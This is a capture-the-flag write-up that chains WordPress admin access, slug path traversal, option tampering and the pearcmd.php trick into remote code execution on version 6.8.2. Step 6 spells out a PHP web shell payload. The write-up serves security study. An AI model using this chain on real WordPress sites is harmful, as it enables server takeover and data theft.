

# wp-admin

* Category: Web
* Score: 450/500
* Solves: 2

## Description

wp-admin to RCE, so easy...?

## Overview

You are given a latest WordPress 6.8.2 (latest version at the time) instance and the admin credentials. The goal is to get RCE on the server. Note that the instance is running on a Docker container, and the WordPress folder is set to be read-only.

## Solution

### The Challenge

The traditional way to get RCE on WordPress from admin panel is to use the theme or plugin editor to add a web shell. However, in this case, the WordPress folder is read-only, so we cannot modify any files directly.

One of the possible route is to get PHP serialized data into the option table in database, so that WordPress will unserialize it when it tries to read the option. However, when writing to the option tables through the admin panel, WordPress will try to detect if the data is serialized, and serialize it again if it is. This prevents unserialization attacks.

### Getting LFI

I expect there are possibly several ways to exploit this, but the specific gadget I used in from [template-loader.php](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template-loader.php#L55-L114). It first check what kind of the *Post* is being requested, and call the respective function to get the path to the template file (PHP file). Later, the returned template path is included, so we can achieve LFI if the returned template path can be controlled.

> In WordPress, a *Post* is not just an article, but also includes pages, attachments, and custom post types.

Owr target is [`get_single_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L549-L572):

```php
function get_single_template() {
	$object = get_queried_object();

	$templates = array();

	if ( ! empty( $object->post_type ) ) {
		$template = get_page_template_slug( $object );
		if ( $template && 0 === validate_file( $template ) ) {
			$templates[] = $template;
		}

		$name_decoded = urldecode( $object->post_name );
		if ( $name_decoded !== $object->post_name ) {
			$templates[] = "single-{$object->post_type}-{$name_decoded}.php";
		}

		$templates[] = "single-{$object->post_type}-{$object->post_name}.php";
		$templates[] = "single-{$object->post_type}.php";
	}

	$templates[] = 'single.php';

	return get_query_template( 'single', $templates );
}
```

While the `post_type` can't be controlled, and it is `post` for normal articles, the `post_name` can be controlled. The `post_name` is the *Slug* of the post, which can be changed in the admin panel.



However, if we try to put characters like `/` or `..` in the slug, it would be sanitized. Fortunately, the `urldecode` function in `get_single_template` will decode URL encoded characters, so we simply URL encode the path traversal characters. So now, we can control the suffix of the template path to be `single-post-[SLUG].php`.

The `$templates` array is passed to [`get_query_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L23-L104), which calls [`locate_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L718-L749) to find the full path of templates.

```php
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

The function will check the existence of the template files in three locations:

1. `$wp_stylesheet_path`: The path of the active theme.
2. `$wp_template_path`: The path of the parent theme, if a child theme is used.
3. `ABSPATH . WPINC . '/theme-compat/'`: A fallback directory in WordPress core files.

The `$wp_stylesheet_path` is the `stylesheet` option in the database, which can be changed in `/wp-admin/options.php`. So the full returned template path is:

```
[THEME_PATH]/single-post-[SLUG].php
```

Where `[THEME_PATH]` is the value of `stylesheet` option, and `[SLUG]` is the slug of the post. If we set `stylesheet` to `../../../../tmp` and the slug to `/../../something`, the path would be:

```
../../../../tmp/single-post-/../../something.php
```

This means if `/tmp/single-post-` folder exists, we can include any file ends with `.php` under the file system, achieving LFI.

But how do we create `/tmp/single-post-` folder? It is actually quite easy, just change the `upload_path` option and upload an attachment. The attachment will be stored in `[UPLOAD_PATH]/[YEAR]/[MONTH]/`, and WordPress will create the folder if it does not exist. So if we set `upload_path` to `/tmp/single-post-`, then the folder will be created when we upload an attachment.

### LFI to RCE

Now, we can basically include any PHP file on the server, how to pop a shell from it? Using `find / -name '*.php'` in the WordPress container, we can find `pearcmd.php` so the well-known PEAR LFI to RCE trick also works here.

### Chaining All Together

To exploit this, follow these steps:

1. Ensure at least two posts exist.
2. Change the slug of the first to `%2f%2e%2e%2f%2e%2e%2fusr%2flocal%2flib%2fphp%2fpearcmd` and the second to `%2f%2e%2e%2f%2e%2e%2ftmp%2fshell`, and record their post IDs.
3. Change `stylesheet` option to `../../../../../../../../tmp/`.
4. Change `upload_path` option to `/tmp/single-post-`.
5. Upload an attachment somewhere to create `/tmp/single-post-` folder.
6. Access `/?p=[PEARCMD_POST_ID]&+config-create+/<?system($_GET[0]);die();?>+/tmp/shell.php` to write a web shell to `/tmp/shell.php`.
7. Access `/?p=[SHELL_POST_ID]&0=/readflag` to get the flag.

See [solve.py](./exp/solve.py) for the full exploit script.
